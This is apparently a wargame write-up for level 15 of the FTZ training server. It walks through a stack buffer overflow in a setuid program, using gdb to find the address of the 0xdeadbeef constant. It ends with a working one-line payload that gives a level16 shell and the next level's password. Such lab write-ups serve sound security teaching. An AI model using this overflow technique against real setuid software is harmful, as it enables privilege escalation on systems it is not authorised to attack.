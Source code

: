 # Level15

## This level's goal
- Memory routine pointer

***

```
[level15@ftz level15]$ ls -l
-rwsr-x---    1 level16  level15     13801 Dec 10  2002 attackme
-rw-r-----    1 root     level15       185 Dec 10  2002 hint

[level15@ftz level15]$ cat hint

#include <stdio.h>

main()
{ 
  int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}
```

This level seems like level14, thre is difference of check's pointer.

```
[level15@ftz tmp]$ cat distance.c
#include <stdio.h>
main()
{
  int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
   printf("Input is : %s\n &buf   : %p\n &check : %p\n &crap  : %p\n", buf, buf, &check, &crap);
}

[level15@ftz tmp]$ gcc distance.c -o distance
[level15@ftz tmp]$ ./distance
Input is :
 &buf   : 0xbffff3a0
 &check : 0xbffff3c8
 &crap  : 0xbffff3cc
```

buf(20bytes) + dummy(20bytes) + \*check(4bytes) + crap(4bytes) + dummy(8bytes) + SFP(4bytes) + RET(4bytes)

```
[level15@ftz level15]$ gdb -q tmp/attackme
(gdb) disas main
0x080484b0 <main+32>:   cmpl   $0xdeadbeef,(%eax)
(gdb) break *0x080484b0
(gdb) run
(gdb) x/16x $esp
0xbfffe3b0:     0x41414141      0x4213000a      0xbfffe3d8      0x08048471
0xbfffe3c0:     0x08049560      0x08049668      0x4001582c      0x080483be
0xbfffe3d0:     0x08048308      0x42130a14      0xbfffe3e8      0x0804831e
0xbfffe3e0:     0x4200af84      0x42130a14      0xbfffe408      0x42015574

(gdb) x/x 0xbfffe3e8
0xbfffe3e8:     0xbfffe408

(gdb) x/x 0xbfffe408
0xbfffe408:     0x00000000

(gdb) info registers
eip            0x80484b0        0x80484b0

(gdb) x/4x 0x80484b0
0x80484b0 <main+32>:    0xbeef3881      0x2575dead      0x6808ec83      0x00000c18

(gdb) x/4x 0x80484b2
0x80484b2 <main+34>:    0xdeadbeef      0xec832575      0x0c186808      0x18680000
```

The deadbeef's memory is 0x80484b2, so the attack code is 40 bytes dummy strings + "\xb2\x84\x04\x08".

```
[level15@ftz level15]$ (python -c 'print "A"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
id
uid=3096(level16) gid=3095(level15) groups=3095(level15)

my-pass
Level16 Password is "about to cause mass".
```
